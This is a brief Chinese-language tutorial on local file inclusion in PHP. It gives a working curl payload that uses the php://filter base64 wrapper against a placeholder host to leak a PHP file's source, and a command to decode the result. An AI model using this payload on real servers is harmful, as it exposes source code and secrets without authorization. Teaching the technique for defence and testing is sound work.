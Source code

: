 ### LFI（local file inclusion）漏洞是.php文件里include、require、once等函数不恰当使用引起的

这个漏洞允许攻击者暴露目标服务器上的文件，在目录遍历（../）的帮助下，可以使攻击者访问本不应该访问到的文件。

但有时候也并不能直接看到代码，这是因为脚本的保护

这里介绍用base64加密的方法来bypass脚本的保护，用“ php://filter ”来把文件加密为base64的格式

```
curl -s http://test.com/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/test/test.php
```
接着再把用base64加密的部分解密出来就行了

```
echo "test_in_base64" | sudo base64 -d
```

就可以看到原本不允许看的test.php的源代码了
